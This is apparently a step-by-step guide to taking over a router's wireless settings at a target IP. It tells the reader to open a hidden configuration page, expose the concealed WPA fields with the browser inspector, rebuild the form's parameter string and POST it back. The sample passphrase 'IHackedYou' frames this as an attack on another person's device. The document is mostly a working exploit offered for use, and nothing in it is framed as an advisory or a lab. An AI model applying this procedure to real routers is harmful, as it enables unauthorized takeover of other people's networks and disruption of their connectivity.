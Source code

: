 Go to firefox
Go to your target IP Address and make sure it's live
Append `/net_wlan_secrity_t.gch` after the IP Address so it becomes `http://[IP Address]/net_wlan_secrity_t.gch`
A form will open, Go to `inspect element`
Press `Ctrl+Shift+C` and click on `Choose SSID` Multi Selection Menu "Probably has Values of SSID1 and SSID2"
The <option> tag of selection `SSID1` is the default, copy the ID at  <select> Tag and and the value of the selection and combine them  like this `Frm_SSID_SET=Frm_SSID_SET0`
Move down to `Authentication type` and do the same so it becomes `Frm_Authentication=WPA-PSK`
Go to <table> tag of ID `wpa` "Search for it under <div> tags" and delete the CSS tag `Display: none;` or replace `none` with anything
Expand <table> tag of ID `wpa` till you see <td> tags
Go to <input> tag of ID `Frm_KeyPassphrase` OR you can `Ctrl+Shift+C`  the input field of the `WPA Paraphrase` and combine them so it becomes  `Frm_KeyPassphrase=IHackedYou`
Go to <td> tag that includes the `WPA Encryption Algorithm`. Go to the Multi Selection Menu and do the  same `Frm_WPAEncryptType=TKIPandAESEncryption`

#####  \- TIME TO ANALYZE THE JS -

Go to function `pageSubmit()`. and see the `setValue` Function usages.
`IF_ACTION=apply&IF_CONFIGTAG=Y&IF_PSKTAG=Y&IF_VIEWID=Frm_SSID_SET0`
Go to <form> tag of ID `fSubmit` and see missing values and append them.
`Transfer_meaning('IF_ERRORSTR','SUCC');` becomes `IF_ERRORSTR=SUCC`
`IF_ERRORPARAM=SUCC&IF_ERRORTYPE=-1&IF_CONFIGTAG=&IF_WEPKEYTAG=&WEPKey=&WLAN_INSTNUM=4&WLAN_SSID0=IGD.LD1.WLAN1&WLAN_SSID1=IGD.LD1.WLAN2&WLAN_SSID2=IGD.LD1.WLAN3&WLAN_SSID3=IGD.LD1.WLAN4`
So it becomes like this "not exactly":
`IF_ACTION=&IF_ERRORSTR=&IF_ERRORPARAM=&IF_ERRORTYPE=&IF_PSKTAG=&IF_CONFIGTAG=&IF_WEPKEYTAG=&WEPKey=&WEPKey0=&WEPKey1=&WEPKey2=&WEPKey3=&WLAN_INSTNUM=&WLAN_SSID0=&WLAN_SSID1=&WLAN_SSID2=&WLAN_SSID3=&IF_VIEWID=&PreSharedKey=&KeyPassphrase=&AssociatedDeviceMACAddress=&Enable=&RadioStatus=&Standard=&BeaconInterval=&RtsCts=&Fragment=&DTIM=&TxPower=&CountryCode=&TxRate=&Channel=&ESSID=&ESSIDPrefix=&ACLPolicy=&BeaconType=&WEPAuthMode=&WEPEncryptionLevel=&WEPKeyIndex=&WPAAuthMode=&WPAEncryptType=&WPAGroupRekey=&WPAEAPServerIp=&RadiusPort=&RadiusServerPort=&WPAEAPSecret=&PossibleChannels=&BasicDataRates=&OpDataRates=&PossibleTxRates=&OOBAccessEnabled=&BeaconEnabled=&ESSIDHideEnable=&RegulatoryDomain=&WlanMode=&DistanceFromRoot=&PeerBSSID=&AuthServiceMode=&QosType=&Priority=&UAPSDEnabled=&AutoChannelEnabled=&ChannelsInUse=&11iAuthMode=&11iEncryptType=&MaxUserNum=&SSIDIsolationEnable=&VapIsolationEnable=&Band=&11nMode=&BandWidth=&SideBand=&11nRate=&SGIEnabled=&WMMEnabled=&GreenField=&Name=&RealRF=&ChannelInUsed=&TxRateInUsed=&Bssid=&IfStatus=&UAPSDSupported=&WMMSupported=&TotalAssociations=&TotalBytesSent=&TotalBytesReceived=&TotalPacketsSent=&TotalPacketsReceived=&ErrorsSent=&ErrorsReceived=&NonUnicastPacketsReceived=&UnicastPacketsSent=&UnicastPacketsReceived=&DiscardPacketsSent=&DiscardPacketsReceived=&TotalPSKFailures=&TotalIntegrityFailures=&NumEasyPair=&ConnectStatus=&SingalQuality=&SingalStrength=`
and send it `POST` request to `/net_wlan_secrity_t.gch`
That's it !